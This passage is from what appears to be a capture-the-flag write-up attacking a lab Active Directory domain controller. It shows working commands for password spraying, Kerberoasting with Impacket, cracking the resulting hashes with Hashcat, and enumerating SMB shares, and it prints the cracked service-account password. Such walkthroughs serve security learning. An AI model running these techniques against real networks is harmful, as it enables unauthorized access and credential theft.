 This gives us a list of 1069 users in the domain. An attempt to perform an ASREPRoasting attack will fail because all these accounts have Kerberos pre-authentication required attribute set. We can attempt a password spray attack. Users sometimes use their login names as their password so let's try to spray the username of each account as its password.
```
┌──(pentester㉿kali)-[~/…/HackMyVM/DC01/Scans/AD Enumeration]
└─$ crackmapexec smb SOUPEDECODE.LOCAL -u valid_users.txt -p valid_users.txt  --no-bruteforce   --continue-on-success | grep -v '[-]'
SMB                      SOUPEDECODE.LOCAL 445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL) (signing:True) (SMBv1:False)
SMB                      SOUPEDECODE.LOCAL 445    DC01             [+] SOUPEDECODE.LOCAL\<REDACTED>:<REDACTED> 
```

This will yield a positive result for one account. We can now use these credentials and the username list we obtained above to enumerate service accounts on the target. This will fail if our attack host doesn't have the same time as the domain controller so before using Impacket scripts to kerberoast service accounts, we first need to change our time to that of the domain controller.
```bash
┌──(root㉿kali)-[/home/…/HackMyVM/DC01/Scans/AD Enumeration]
└─# timedatectl set-ntp off
┌──(root㉿kali)-[/home/…/HackMyVM/DC01/Scans/AD Enumeration]
└─# rdate -n  10.0.2.31 
┌──(root㉿kali)-[/home/…/HackMyVM/DC01/Scans/AD Enumeration]
└─# impacket-GetUserSPNs   SOUPEDECODE.LOCAL/ybob317 -dc-ip 10.0.2.31 -usersfile valid_users.txt

┌──(root㉿kali)-[/home/…/HackMyVM/DC01/Scans/AD Enumeration]
└─# impacket-GetUserSPNs   SOUPEDECODE.LOCAL/ybob317 -dc-ip 10.0.2.31 -usersfile valid_users.txt -request -outputfile spn-users.tgs                                                                               
Impacket v0.12.0.dev1 - Copyright 2023 Fortra
Password:   
<SNIP>
```

After obtaining the TGS of service accounts on the target, we can use Hashcat to crack them.
```bash
┌──(root㉿kali)-[/home/…/HackMyVM/DC01/Scans/AD Enumeration]
└─# hashcat -a 0 -m 13100 spn-users.tgs /usr/share/wordlists/rockyou.txt 
hashcat (v6.2.6) starting
<SNIP>
$krb5tgs$23$*file_svc$SOUPEDECODE.LOCAL$file_svc*$d8d2e01806c9713c384bd7ab7e684f5e$7f598f1ffc368974cefd2f02073150b221938220589e89234aacb6503fab6ec6b12c68b37564748<SNIP>b1634f79c4fac396d45f544cba11a8b14866aece56f2db9ca63964aee70602df89c2955916ce04aa7d962af72df3c273c6d7c8bdcfa8db05ba405578c90096696781ececb63f2f57fd3f6c1826bf8c7f7a4:<REDACTED>
```

We can see that Hashcat successfully cracked the TGS of the file_svc account. From the name of this account, we can deduce that it has a relationship with files file share services on the target so let's use it to enumerate shares on the DC.
```bash
┌──(pentester㉿kali)-[~/Desktop/HackMyVM/DC01]
└─$ crackmapexec smb SOUPEDECODE.LOCAL -u file_svc -p 'Password123!!' --shares
SMB         SOUPEDECODE.LOCAL 445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:SOUPEDECODE.LOCAL) (signing:True) (SMBv1:False)
SMB         SOUPEDECODE.LOCAL 445    DC01             [+] SOUPEDECODE.LOCAL\file_svc:Password123!! 
SMB         SOUPEDECODE.LOCAL 445    DC01             [+] Enumerated shares
SMB         SOUPEDECODE.LOCAL 445    DC01             Share           Permissions     Remark
SMB         SOUPEDECODE.LOCAL 445    DC01             -----           -----------     ------
SMB         SOUPEDECODE.LOCAL 445    DC01             ADMIN$                          Remote Admin
SMB         SOUPEDECODE.LOCAL 445    DC01             backup          READ            
SMB         SOUPEDECODE.LOCAL 445    DC01             C$                              Default share
SMB         SOUPEDECODE.LOCAL 445    DC01             IPC$            READ            Remote IPC
SMB         SOUPEDECODE.LOCAL 445    DC01             NETLOGON        READ            Logon server share 
```